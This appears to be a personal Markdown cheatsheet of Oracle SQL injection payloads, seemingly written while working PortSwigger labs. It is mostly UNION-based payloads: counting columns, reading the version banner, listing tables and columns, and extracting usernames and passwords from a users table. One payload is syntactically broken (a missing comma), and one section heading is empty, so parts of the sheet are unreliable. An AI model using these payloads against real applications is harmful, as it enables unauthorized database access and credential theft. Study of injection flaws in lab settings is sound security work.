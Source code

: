 # SQL Injection Cheatsheets

## SQL Database




## ORACLE Database
- Identifying number of columns avaliable to craft the union select command [Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).
```bash
Pets' order by 1--    # Increase the number starting from 1 to so on, when ever you get the 500 error then n-1 columns are their
# Asume here 2 cloumns, when i use the number 3 error of 500 internal server error
Pets'union select null, null from DUAL--     # DUALinternal table in ORACLE
Pets'union select 'a', 'a' from DUAL--
```
- Version
```bash
Pets'union select null, banner from v$version--
```
- List of Tables
```bash
' union select table_name from all_tables--  # It will provide the table names check for user keywords
```
- Data of tables
```bash
Pets'union select column_name null from+all_tab_columns where table_name = 'USERS_BPAWFN'--    # FInding column names
Pets'union select USERNAME_RABKTC,PASSWORD_YOEYVJ from+USERS_BPAWFN--
```
  
